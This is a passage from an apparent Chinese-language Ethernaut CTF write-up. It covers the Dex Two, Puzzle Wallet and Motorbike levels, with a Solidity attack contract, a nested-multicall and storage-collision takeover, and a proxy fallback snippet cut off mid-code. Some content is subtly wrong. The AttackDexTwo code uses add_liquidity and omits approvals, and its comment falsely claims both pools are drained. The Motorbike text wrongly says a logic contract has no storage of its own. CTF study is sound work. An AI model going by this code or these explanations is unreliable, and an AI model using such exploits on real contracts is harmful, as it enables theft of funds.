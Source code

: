 ```solidity
contract AttackDexTwo {
    DexTwo public dex;
    MaliciousToken public token;

    constructor(address _dex) {
        dex = DexTwo(_dex);
        token = new MaliciousToken();
    }

    function exploit() public {
        // 向 DexTwo 中添加恶意代币流动性
        dex.add_liquidity(address(token), 1); // 添加1个恶意代币

        // 利用恶意代币的高余额操控价格
        dex.swap(address(token), dex.token1(), 1);
        dex.swap(address(token), dex.token2(), 1);

        // 此时，DexTwo 的 token1 和 token2 已被耗尽
    }
}
```

## 24. Puzzle Wallet ✅ [Hard]

这题有两个问题：
1. 如何成为upgradeable合约的管理员
因为UpgradeableProxy 中使用的delegatecall，admin所在的slot和puzzlewallet的max_balance所在的slot是同一个slot，所以可以通过调用来把admin改成自己并把自己加到whitelist里

2. 怎么多次调用deposit
在multicall里的deposit 的限制是 “只能调用一次”，但是没有限制multicall不能调用自己本身，可以将 multicall 调用嵌套在另一个 multicall 中，例如：
multicall([
  multicall([deposit])
])
在外层 multicall 中，depositCalled 变量重置为 false。内层调用的 multicall 会调用 deposit，然后再次嵌套，绕过了布尔变量的限制。

## 25. Motorbike ✅ [Hard]

重点在于理解：
delegatecall的过程，还有代理合约和逻辑合约

代理合约 (moto) 是存储变量的地方：
代理合约用来保存所有状态变量，例如 initialized，这些变量的值实际存储在代理合约的存储槽中。
当通过代理合约调用 engine 的 initialize 方法时，delegatecall 的作用是让 initialize 在代理合约的存储上下文中运行，因此会在代理合约的存储槽里设置 initialized = true。

逻辑合约 (engine) 只提供代码：
逻辑合约本身并不存储变量，它只定义了变量的布局和逻辑。
如果直接调用逻辑合约的方法，例如 engine.initialize()，存储变量 initialized 对逻辑合约来说始终是未初始化的默认值（false），因为它并没有独立的存储。
因此，每次直接调用 engine 的方法，initialized = true 都相当于一个临时变量的更改，不会被保存下来。

```solidity
fallback() external payable {
    assembly {
        // 1. 复制 calldata 到内存
        calldatacopy(0, 0, calldatasize())

        // 2. 使用 delegatecall 调用逻辑合约
        let result := delegatecall(
            gas(),                  // 转发所有剩余 gas
            sload(implementation.slot), // 加载逻辑合约地址
            0,                      // 输入数据起始地址
            calldatasize(),         // 输入数据大小
            0,                      // 输出数据起始地址
            0                       // 输出数据大小
```
